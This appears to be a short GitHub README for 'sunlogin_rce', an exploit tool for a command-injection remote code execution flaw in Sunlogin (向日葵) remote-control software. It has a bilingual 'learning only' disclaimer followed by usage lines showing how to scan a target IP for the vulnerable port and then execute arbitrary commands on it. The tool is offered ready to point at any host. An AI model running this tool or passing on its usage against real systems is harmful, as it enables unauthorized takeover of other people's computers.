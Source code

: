 # sunlogin_rce
# 免责声明
仅供学习交流，未经作者许可不得转载
任何因传播和使用本工具而造成的直接或间接后果和损失均由用户自行承担，作者对此不承担任何责任。
# Disclaimer
It is only for learning and communication, and cannot be reproduced without the permission of the author
Any direct or indirect consequences and losses caused by the dissemination and use of this tool are the responsibility of the user, and the author does not assume any responsibility for this.
# 向日葵 命令注入（rce）利用
sunlogin_rce.exe -H ip 扫描存在的端口
sunlogin_rce.exe -H ip -P rce 端口 -C 执行命令
